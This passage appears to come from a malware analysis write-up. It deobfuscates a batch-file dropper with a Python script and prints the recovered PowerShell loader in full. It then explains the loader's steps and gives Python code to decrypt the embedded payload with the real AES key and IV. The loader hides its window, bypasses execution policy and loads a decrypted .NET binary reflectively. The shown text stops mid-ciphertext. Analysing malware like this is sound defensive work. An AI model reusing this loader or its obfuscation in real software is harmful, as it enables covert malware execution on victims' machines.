%eUFw%"KytxcYPZKt=YiLG"
%eUFw%"RGlZIMTaRM=urit"
%eUFw%"igJmqZApvQ=ss -"
%eUFw%"dGSGnKbkQW=pose"
%eUFw%"lSUnvlNyZI=tem."
%eUFw%"rddZbDFvhl=)))"
%eUFw%"KHqiJghRbq=and "
%eUFw%"WPGlloqWfh=ddin"
%eUFw%"pLUeCEDcNj=]::C"
%eUFw%"drymkVAnZW=);$B"
%eUFw%"KdByPVjCnF=ring"
%eUFw%"VnDoNvCbDL=orF'"
%eUFw%"GapFScCcpe=ke($"
%eUFw%"iVrCyJhMiJ=fc6t"
%eUFw%"oMsMdPYmPd=ert]"
%eUFw%"odWdfvJnBE=Lk ="
%eUFw%"ekEoGMuERC=yste"
%eUFw%"QMmDXFyyag=Syst"
%eUFw%"cYinxarhDL=lit("
%eUFw%"bIgeRgvTeJ=ap.T"
%eUFw%"acXjUrxrpX=raph"
%eUFw%"SCbDgQuqTU=ay()"
%eUFw%"YYKSCuCbgJ=New-"
%eUFw%"YnGvhgYxvb=cm ="
%eUFw%"vnHosfjdeN=;$Pt"
%eUFw%"LIQYgFxctD=d;$B"
%eUFw%"olHsTHINJO=[Env"
%eUFw%"WQqetkePWs=NVPb"
%eUFw%"AGOCIKFMEK=::('"
%eUFw%"QbKdEZdxpx=uGcO"
%eUFw%"RWcegafVtf=daeR"
%eUFw%"ESpdErsKEO=pher"
%eUFw%"kJjQuXIjOT=.Con"
%eUFw%"dbDMRBPrxg=uGcO"
%eUFw%"mBIWiJNHWZ=esaB"
%eUFw%"WmHvayPxwd=.Mem"
%eUFw%"oQYrpYRHsU=stem"
%eUFw%"HFLAqJuuyu=ew-O"
%eUFw%"JhYYmEHfJT=ing("
%eUFw%"pTKKchMUFD=BC;$"
%eUFw%"vShQyqnqqU=exe""
%eUFw%"PjdRUyhsyG=[]] "
%eUFw%"VUeZKgDBUe=.Com"
%eUFw%"oNvGdyNkLt=oArr"
%eUFw%"IAkZpnEseT=UA.I"
%eUFw%"haSZYOmkiA=bstr"
%eUFw%"tzSNMWchGN=]::N"
%eUFw%"YKwLsVwqOj=Fina"
%eUFw%"MFRjJyYsrs=k; }"
%eUFw%"EdLUuXiTNo=File"
%eUFw%"nMbUuONTOk=7;$B"
%eUFw%"OAsjgKHKoH= = N"
%eUFw%"LLNnWnTLBJ=$bTM"
%eUFw%"xVIsxobyZi= '')"
%eUFw%"pUKFMEPFQs=onve"
%eUFw%"DDiJEpaiME=acUA"
%eUFw%"ENADhKPHot= [st"
%eUFw%"WTAeYdswqF=.IO."
%eUFw%"hVncqdtHrj=[Sys"
%eUFw%"EUwICZcugV=);$N"
%eUFw%"USLedfRsdA=ispo"
%eUFw%"YULKJDZpgz=t Sy"
%eUFw%"BlIFABuPAW=ress"
%eUFw%"gNabAkLFGN=();$"
%eUFw%"cGJiVEdEzp=ZOcm"
%eUFw%"OpWuyrggtP=ddin"
%eUFw%"NbOjNijxuU=.Len"
%eUFw%"EuMCNHEVeC=nirt"
%eUFw%"iHRclHpeVX=-joi"
%eUFw%"zFvgtBzUer=Comp"
%eUFw%"klVPUdMJas=ecry"
%eUFw%"tBsRPAyhtG=;$gD"
%eUFw%"uOGlqENvnk=$NVP"
%eUFw%"WSRbQhwrOC=$eIf"
%eUFw%"gFQQimTbzp=bjec"
%eUFw%"FCBcNynRGD=Bmor"
%eUFw%"gNELMMjyFY=-win"
%eUFw%"pqWXTkasXe=+M0z"
%eUFw%"pjrIjvjdGR=tryP"
%eUFw%"aGQeJYSFDZ=m.Re"
%eUFw%"hknFiXCnZQ=ion."
%eUFw%"MxwsyqmvYm=.Cre"
%eUFw%"FijcPoQLnC=ne);"
%eUFw%"VGKsxiJBaT=.Sec"
%eUFw%"roXhULjavE=pres"
%eUFw%"FraARuTjiq=($Yi"
%eUFw%"rEvTlCThdH=VIHX"
%eUFw%"JCuNlxqlBZ=:: '"
%eUFw%"BANrSlObpx=nage"
%eUFw%"CMHWMmXlZO=eam("
%eUFw%"MtoMzhoqyY=bypa"
%eUFw%"xfHbUEWpFC=-Obj"
%eUFw%"ktDjVGpvOa=pStr"
%eUFw%"hzjnwzdyGY=ct S"
%eUFw%"HkiSTlwlIs=-4] "
%eUFw%"AnKEeEZdOq=rans"
%eUFw%"doKcadyJqy=xU7e"
%eUFw%"dyJHMHMcNc=S46e"
%eUFw%"jCsFOJQsdv=tem."
%eUFw%"pEeOvclMbZ=PKCS"
%eUFw%"fFqNPWfBWr=se()"
%eUFw%"XEyDmChJvW= = $"
%eUFw%"ZMNBNnhYdl=BacU"
%eUFw%"UmCJMMMcBg=m.IO"
%eUFw%"FcrKUOEnOU=.Cop"
%eUFw%"eYuashSMjP=y.Ci"
%eUFw%"reviZiSttH=oryS"
%eUFw%"xijYXotZPT=Comp"
%eUFw%"yqhJQSZuJo=rAsa"
%eUFw%"QCZuMFaZsV=lBlo"
%eUFw%"DAaZVQYtML=V = "
%eUFw%"gbVsRGzTij=.Key"
%eUFw%"OOiwgwuupI=ose("
%eUFw%"hbFnQgCXwX=Secu"
%eUFw%"AiqHTcPzsv=th('"
%eUFw%"KUKwZheGNw=BNO "
%eUFw%"OonlMOpxYC=tem."
%eUFw%"oFspIELDJK=ewLi"
%eUFw%"isQISZiBPJ=acUA"
%eUFw%"EiWocIreAk=yTo("
%eUFw%"CZpuCIcrKh=Secu"
%eUFw%"ZNBNkxQuUl=.GZi"
%eUFw%"ZPlPiozEyW='')("
%eUFw%"eFWpiweoyr=am;$"
%eUFw%"kEHDlJOIVc=gMod"
%eUFw%"PwJJFMgamh=eHDU"
%eUFw%"nfEeCcWKKK=-ep "
%eUFw%"dAuevoJWoL=gnir"
%eUFw%"BMVjGSkNrk=.Cry"
%eUFw%"GwAFOSfUtV=acUA"
%eUFw%"bSIafzAxiZ=Lk.T"
%eUFw%"uynFENuiYB=iron"
%eUFw%"BGoTReCegg=qq ="
%eUFw%"DXdgqiFTAH=ptog"
%eUFw%"QNxYaFZSBu=);$P"
%eUFw%"shhyfkrTvn=m = "
%eUFw%"fvEtritbuM= = $"
%eUFw%"IwOqmlYsbl=('da"
%eUFw%"EDuGpmwedn=m = "
%eUFw%"rFsKCxpAbv=.Dis"
%eUFw%"HLynrUfwGo=6esa"
%eUFw%"wwmTmFdRsZ=trea"
%eUFw%"IeRiYUFnCZ=Obje"
%eUFw%"kxCYxBSxVM=..-1"
%eUFw%"xULgeMdzcg='0xd"
%eUFw%"vXewtPjogB=$bTM"
%eUFw%"GhTXhmRnCR=, (,"
%eUFw%"MBvrUwPCDz=m.IO"
%eUFw%"KVdpASYkBZ=A.Pa"
%eUFw%"fxpyemHAMo=Stre"
%eUFw%"KtmeCApwQn=tion"
%eUFw%"jWtWLzuDKP=bbqM"
%eUFw%"xllGdjvUjB=em.I"
%eUFw%"ahbOZSBViB=Star"
%eUFw%"MusMeoeDey=Disp"
%eUFw%"ySgQyAAfQH=ect "
%eUFw%"LPGeAanVGt=3); "
%eUFw%"LYxpWUVnyn==');"
%eUFw%"TfyrgNGxBL=ress"
%eUFw%"ZNnASGtLCj=y]::"
%eUFw%"KXttaDcyMZ=.Mod"
%eUFw%"RfMwENsorP=morF"
%eUFw%"CZTFliIBbC=:('g"
%eUFw%"mYyPXMYwYi=oint"
%eUFw%"SIQjFslpHA=comm"
%eUFw%"pibEdoDBbD=mNKM"
%eUFw%"TVsNOuCNZd= '')"
%eUFw%"yQujDHraSv= hid"
%eUFw%"fVHBRsLNUl='gni"
%eUFw%"iREuYMPcTg=ct S"
%eUFw%"uDsfTCYsro=g = "
%eUFw%"zwDBykiqZZ=den "
%eUFw%"weRTbbZPjT=tyle"
%eUFw%"uwRWnyAikF=tS46"
%eUFw%"bTHJpHTPMM=)($V"
%eUFw%"TuqTvTpeOG=bn.D"
%eUFw%"GWrDWSvoPL=W.Su"
%eUFw%"KXapePmHCe=form"
%eUFw%"eeacPrYshd=iW20"
%eUFw%"XEcuUpquLQ=ress"
%eUFw%"iCcGUuJxVn=.Dis"
%eUFw%"WXWHLOygSe=gap."
%eUFw%"XIAbFAgCIP=dows"
%eUFw%"QzqEkBCLON=Lk);"
%eUFw%"pCjFJxRqgH=Conv"
%eUFw%"TEtLFfgLmA=TMLk"
%eUFw%"GzBAHPVuTq=] -j"
%eUFw%"VUsEoebHks=('2h"
%eUFw%"YiVTQhqRnm=New-"
%eUFw%"kQQvXhxXIT=Mode"
%eUFw%"RITIeDNkWx=$mNK"
%eUFw%"LNwemqbftD=saBm"
%eUFw%"DCnzMxKRnm=ose("
%eUFw%"ftaecaUnft=;$Nl"
%eUFw%"KhyyrSrcKr='[-1"
%eUFw%"QpDqsQAemY=rt]:"
%eUFw%"RycUceHQZc=ck($"
%eUFw%"QTBYjmNXEB=[Sys"
%eUFw%"iKAAuWsbec=).Sp"
%eUFw%"UAnQUvXBfs=$bTM"
%eUFw%"zhsTKtujLg=acUA"
%eUFw%"CpAQgSdzaC=Syst"
%eUFw%"qIhOqqdyjR=uZOc"
%eUFw%"LmCknrHfoB=ach "
%eUFw%"dlzhxQnMss=TBkD"
%eUFw%"YJZmDySMUy=)($u"
%eUFw%"gqUdnmSTUN=LGW "
%eUFw%"tuAPcYGhzl=n/J7"
%eUFw%"jxjvtHoTnR=tfdQ"
%eUFw%"jpqWVBsCpx=;$Nl"
%eUFw%"HUAAetwukX=1..-"
%eUFw%"rVOFKTskYR=]::("
%eUFw%"XzWakcViZI=ptor"
%eUFw%"hNwOTmvEJo=gGVE"
%eUFw%"MFpVhvZMMs=ptog"
%eUFw%"YRqcyngfyU=$Bac"
%eUFw%"uIWSZVpUHl=sion"
%eUFw%"QGiWXkfFPy=);$B"
%eUFw%"JPOdGPAwht=/Ntk"
%eUFw%"mxXhSCdBil=KMr."
%eUFw%"TYbHmXrqgV=)) {"
%eUFw%"kpEWZrtOzX=; };"
%eUFw%"TypmIIEYJC=grap"
%eUFw%"GEFNspgkfU=Obje"
%eUFw%"glRvzlEEoe=join"
%eUFw%"JbFOJyRrBm=oL'["
%eUFw%"hwZKiiLqAE=LGW."
%eUFw%"MrNTGKcbYu=n ''"
%eUFw%"XClTzcVMGM=join"
%eUFw%"XqtgTmRIdO=em.C"
%eUFw%"nMLIkcyFZj='txe"
%eUFw%"BrDOtQoojB=$uZO"
%eUFw%"LfngwmfRCb=fdQ."
%eUFw%"jtkYEPXtKX=TllA"
%eUFw%"KAlyOryibJ=yste"
%eUFw%"GJcpQprPXv=ionM"
%eUFw%"rofQqYizRu=-joi"
%eUFw%"UFSmCjquVd=rity"
%eUFw%"SRYmoDJgcF=raph"
%eUFw%"mFZJVdqlTD=[-1."
%eUFw%"hbnAmGyJMk=gth)"
%eUFw%"hTTJOKGuzo=brea"
%eUFw%"JenYfqHzBk=y.Cr"
%eUFw%"DwiWdAaOiv=cm);"
%eUFw%"vPgKEvZmlQ===')"
%eUFw%"jgiQdwyxFg=rtS4"
%eUFw%"qpUykKHwzb=('%~f0'"
%eUFw%"GLwLVWewUj=eIfq"
%eUFw%"MAPkvbWKbC=.Ass"
%eUFw%"jugDlMdkcG=.Cry"
%eUFw%"TiuQnZmosP=-1.."
%eUFw%"EQAuBusyXb=q) {"
%eUFw%"GTgGJngEbX=[IO."
%eUFw%"yZlAoExoOn=O.En"
%eUFw%"sLNudRRtUX=  $V"
%eUFw%"WauWfrgGak=ment"
%eUFw%"YmUoUKWAtR=ode]"
%eUFw%"yOkBDuSVrl= if "
%eUFw%"MJKqSlzRdg=VPbn"
%eUFw%"PmpGnAHBIo=, $u"
%eUFw%"cUDojRpXKx= [Sy"
%eUFw%"svwZUufvHX=y.Pa"
%eUFw%"GDXqElqPYy=($Yi"
%eUFw%"ybHVOwcPrc= = ["
%eUFw%"hIpFAiXGDz=m, 0"
%eUFw%"lfCLMrJHhW=gap "
%eUFw%"NXvoEmTmgu=1Mwd"
%eUFw%"DNNdkNfTiI=comp"
%eUFw%"kpzxAxFvLw=('%*'"
%eUFw%"MsfoqNTDfI=ateD"
%eUFw%"MmhvJKSdep=mory"
%eUFw%"uVLEiIUjzw=prof"
%eUFw%"NvnNgHLBLJ=n7Lw"
%eUFw%"owRVWPJqcX=rity"
%eUFw%"HlBVDpGgba=embl"
%eUFw%"SIneUaQPty=stem"
%eUFw%"nogFGGEgdF=16] "
%eUFw%"qsPTvcejTS=n = "
%eUFw%"wEZCzuPukj=[Sys"
%eUFw%"rVuFsOUxnm=yste"
%eUFw%"fLycQgNMii=oin "
%eUFw%"KsuJogdoiJ= -no"
%eUFw%"djeIEnPaCg=tsWi"
%eUFw%"brwOvSubJT=e = "
%eUFw%"TOqZKQRZli=uZOc"
"""
ls = dict.split('\"')
txt = {}
k = 0
tmp = ''
enc = '%CJnGNBkyYp%%UBndSzFkbH%%ujJtlzSIGW%%nwIWiBzpbz%%cHFmSnCqnE%%kTEDvsZUvn%%JBRccySrUq%%ZqjBENExAX%%XBucLtReBQ%%BFTOQBPCju%%vlwWETKcZH%%NCtxqhhPqI%%GOPdPuwuLd%%YcnfCLfyyS%%JPfTcZlwxJ%%ualBOGvshk%%xprVJLooVF%%cIqyYRJWbQ%%jaXcJXQMrV%%pMrovuxjjq%%KXASGLJNCX%%XzrrbwrpmM%%VCWZpprcdE%%tzMKflzfvX%%ndjtYQuanY%%chXxviaBCr%%tHJYExMHlP%%WmUoySsDby%%UrPeBlCopW%%lYCdEGtlPA%%eNOycQnIZD%%PxzdwcSExs%%VxroDYJQKR%%zhNAugCrcK%%XUpMhOyyHB%%OOOxFGwzUd%%dzPrbmmccE%%xQseEVnPet%%eDhTebXJLa%%vShQyqnqqU%%KsuJogdoiJ%%uVLEiIUjzw%%SJsEzuInUY%%gNELMMjyFY%%XIAbFAgCIP%%weRTbbZPjT%%yQujDHraSv%%zwDBykiqZZ%%nfEeCcWKKK%%MtoMzhoqyY%%igJmqZApvQ%%SIQjFslpHA%%KHqiJghRbq%%WSRbQhwrOC%%BGoTReCegg%%WYJXnBQBDj%%SIneUaQPty%%WTAeYdswqF%%EdLUuXiTNo%%rVOFKTskYR%%nMLIkcyFZj%%jtkYEPXtKX%%RWcegafVtf%%KhyyrSrcKr%%zDUDeXKPaV%%VZAbZqJHBk%%XClTzcVMGM%%xVIsxobyZi%%qpUykKHwzb%%iKAAuWsbec%%cYinxarhDL%%olHsTHINJO%%uynFENuiYB%%WauWfrgGak%%tzSNMWchGN%%oFspIELDJK%%FijcPoQLnC%%AbMyvUGzSH%%LmCknrHfoB%%GDXqElqPYy%%gqUdnmSTUN%%YlKbYsFYPy%%GLwLVWewUj%%EQAuBusyXb%%yOkBDuSVrl%%FraARuTjiq%%hwZKiiLqAE%%ahbOZSBViB%%djeIEnPaCg%%AiqHTcPzsv%%JCuNlxqlBZ%%TYbHmXrqgV%%sLNudRRtUX%%dbDMRBPrxg%%XEyDmChJvW%%KytxcYPZKt%%GWrDWSvoPL%%haSZYOmkiA%%JhYYmEHfJT%%LPGeAanVGt%%hTTJOKGuzo%%MFRjJyYsrs%%kpEWZrtOzX%%BrDOtQoojB%%YnGvhgYxvb%%cUDojRpXKx%%rSVBNvbdPT%%kJjQuXIjOT%%tVtxVGNpFB%%BqEMjgsfHM%%fVHBRsLNUl%%jgiQdwyxFg%%HLynrUfwGo%%FCBcNynRGD%%VavtsuhNIN%%HUAAetwukX%%nogFGGEgdF%%iHRclHpeVX%%MrNTGKcbYu%%bTHJpHTPMM%%QbKdEZdxpx%%drymkVAnZW%%DDiJEpaiME%%OAsjgKHKoH%%HFLAqJuuyu%%gFQQimTbzp%%YULKJDZpgz%%oQYrpYRHsU%%VGKsxiJBaT%%RGlZIMTaRM%%JenYfqHzBk%%vmIEtsktnA%%TypmIIEYJC%%eQPFkQsLmh%%AkaPyEXHFq%%BANrSlObpx%%LIQYgFxctD%%ZygfZJxAOd%%KXttaDcyMZ%%brwOvSubJT%%hVncqdtHrj%%OonlMOpxYC%%CZpuCIcrKh%%owRVWPJqcX%%jugDlMdkcG%%DXdgqiFTAH%%acXjUrxrpX%%eYuashSMjP%%ESpdErsKEO%%kQQvXhxXIT%%pLUeCEDcNj%%pTKKchMUFD%%ZMNBNnhYdl%%KVdpASYkBZ%%OpWuyrggtP%%uDsfTCYsro%%wEZCzuPukj%%jCsFOJQsdv%%hbFnQgCXwX%%UFSmCjquVd%%BMVjGSkNrk%%MFpVhvZMMs%%SRYmoDJgcF%%svwZUufvHX%%WPGlloqWfh%%kEHDlJOIVc%%jdKMRqipbM%%pEeOvclMbZ%%nMbUuONTOk%%GwAFOSfUtV%%gbVsRGzTij%%ybHVOwcPrc%%CpAQgSdzaC%%XqtgTmRIdO%%pUKFMEPFQs%%QpDqsQAemY%%CZTFliIBbC%%EuMCNHEVeC%%dyJHMHMcNc%%LNwemqbftD%%VnDoNvCbDL%%mFZJVdqlTD%%vGOYQQYIpx%%GzBAHPVuTq%%fLycQgNMii%%ZPlPiozEyW%%xULgeMdzcg%%iVrCyJhMiJ%%dlzhxQnMss%%pqWXTkasXe%%doKcadyJqy%%hNwOTmvEJo%%yqhJQSZuJo%%JPOdGPAwht%%rEvTlCThdH%%PwJJFMgamh%%eeacPrYshd%%LYxpWUVnyn%%YRqcyngfyU%%IAkZpnEseT%%DAaZVQYtML%%QTBYjmNXEB%%lSUnvlNyZI%%pCjFJxRqgH%%oMsMdPYmPd%%AGOCIKFMEK%%dAuevoJWoL%%uwRWnyAikF%%mBIWiJNHWZ%%RfMwENsorP%%gbXeIdPSoj%%kxCYxBSxVM%%AbZpTpKurz%%glRvzlEEoe%%TVsNOuCNZd%%VUsEoebHks%%tuAPcYGhzl%%WojQSFImBz%%NXvoEmTmgu%%jWtWLzuDKP%%NvnNgHLBLJ%%vPgKEvZmlQ%%ftaecaUnft%%lfCLMrJHhW%%ArAxZuPIrp%%zhsTKtujLg%%MxwsyqmvYm%%MsfoqNTDfI%%klVPUdMJas%%XzWakcViZI%%htJeDhbeDW%%ARecVABHyu%%EDuGpmwedn%%SKEwAQBRlN%%bIgeRgvTeJ%%AnKEeEZdOq%%KXapePmHCe%%YKwLsVwqOj%%QCZuMFaZsV%%RycUceHQZc%%TOqZKQRZli%%hIpFAiXGDz%%PmpGnAHBIo%%nGqMpclaJV%%NbOjNijxuU%%hbnAmGyJMk%%jpqWVBsCpx%%WXWHLOygSe%%rjhOhltPzI%%DCnzMxKRnm%%QGiWXkfFPy%%isQISZiBPJ%%iCcGUuJxVn%%dGSGnKbkQW%%gNabAkLFGN%%pibEdoDBbD%%AHKCuBAkui%%YYKSCuCbgJ%%IeRiYUFnCZ%%hzjnwzdyGY%%KAlyOryibJ%%MBvrUwPCDz%%WmHvayPxwd%%reviZiSttH%%wwmTmFdRsZ%%JBUgbyTPxp%%BaMYsIgnsM%%DwiWdAaOiv%%vXewtPjogB%%odWdfvJnBE%%yPzFwnsYdA%%xfHbUEWpFC%%ySgQyAAfQH%%QMmDXFyyag%%xllGdjvUjB%%zuIYfGJIhV%%MmhvJKSdep%%fxpyemHAMo%%eFWpiweoyr%%WQqetkePWs%%qsPTvcejTS%%YiVTQhqRnm%%GEFNspgkfU%%iREuYMPcTg%%rVuFsOUxnm%%UmCJMMMcBg%%VUeZKgDBUe%%roXhULjavE%%uIWSZVpUHl%%ZNBNkxQuUl%%ktDjVGpvOa%%CMHWMmXlZO%%RITIeDNkWx%%UPfjubfNXt%%GTgGJngEbX%%zFvgtBzUer%%TfyrgNGxBL%%hknFiXCnZQ%%xijYXotZPT%%BlIFABuPAW%%GJcpQprPXv%%YmUoUKWAtR%%tHHIjVCHeH%%DNNdkNfTiI%%XEcuUpquLQ%%EUwICZcugV%%MJKqSlzRdg%%FcrKUOEnOU%%EiWocIreAk%%LLNnWnTLBJ%%QzqEkBCLON%%uOGlqENvnk%%TuqTvTpeOG%%USLedfRsdA%%fFqNPWfBWr%%AyyrPvjwjr%%mxXhSCdBil%%MusMeoeDey%%OOiwgwuupI%%WvjMoIIiUn%%TEtLFfgLmA%%rFsKCxpAbv%%hImzprlFyw%%GVIREkvxRa%%qIhOqqdyjR%%shhyfkrTvn%%UAnQUvXBfs%%bSIafzAxiZ%%oNvGdyNkLt%%SCbDgQuqTU%%tBsRPAyhtG%%KUKwZheGNw%%INPLAzQfUo%%ekEoGMuERC%%aGQeJYSFDZ%%LODxmGMGqq%%KtmeCApwQn%%MAPkvbWKbC%%HlBVDpGgba%%ZNnASGtLCj%%IwOqmlYsbl%%JbFOJyRrBm%%TiuQnZmosP%%HkiSTlwlIs%%rofQqYizRu%%OckpqzbYcn%%YJZmDySMUy%%cGJiVEdEzp%%QNxYaFZSBu%%jxjvtHoTnR%%fvEtritbuM%%wxzMwkmbmY%%yZlAoExoOn%%pjrIjvjdGR%%mYyPXMYwYi%%vnHosfjdeN%%LfngwmfRCb%%bivuMABwCB%%GapFScCcpe%%lfYSggLrsL%%GhTXhmRnCR%%ENADhKPHot%%KdByPVjCnF%%PjdRUyhsyG%%kpzxAxFvLw%%rddZbDFvhl%'
for i in enc:
    if i != '%':
        tmp += i
enc = tmp
for i in range(0, len(ls), 1):
    if '=' in ls[i]:
        try:
            txt[ls[i][0:10]] = ls[i][11:]
            enc = enc.replace(ls[i][0:10], ls[i][11:])
        except:
            continue
print(enc)
```

Which, results in this script:

```powershell
copy C:WindowsSystem32\WindowsPowerShell
1.0powershell.exe /y execd exe -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine);foreach ($YiLGW in $eIfqq) { if ($YiLGW.StartsWith(':: ')) {  $VuGcO = $YiLGW.Substring(3); break; }; };$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO);$BacUA = New-Object System.Security.Cryptography.AesManaged;$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==');$Nlgap = $BacUA.CreateDecryptor();$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);$Nlgap.Dispose();$BacUA.Dispose();$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);$bTMLk = New-Object System.IO.MemoryStream;$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);$NVPbn.CopyTo($bTMLk);$NVPbn.Dispose();$mNKMr.Dispose();$bTMLk.Dispose();$uZOcm = $bTMLk.ToArray();$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm);$PtfdQ = $gDBNO.EntryPoint;$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```

Short analysis on the script's intention:

* **Step 1:** Initiates AES decryptor using `CBC` mode, `PKCS7` padding mode, `key` and `IV` given.

* **Step 2:** Decrypts the encrypted payload (via `Window.bat`) using the above settings.

* **Step 3:** Decompresses `GZip`, then run the output as a `binary`.

We can use this Python script below to get the binary that I have stated in step 3 above.

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64
import gzip


key = base64.b64decode('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
iv = base64.b64decode('2hn/J717js1MwdbbqMn7Lw==')

encrypted_message = base64.b64decode('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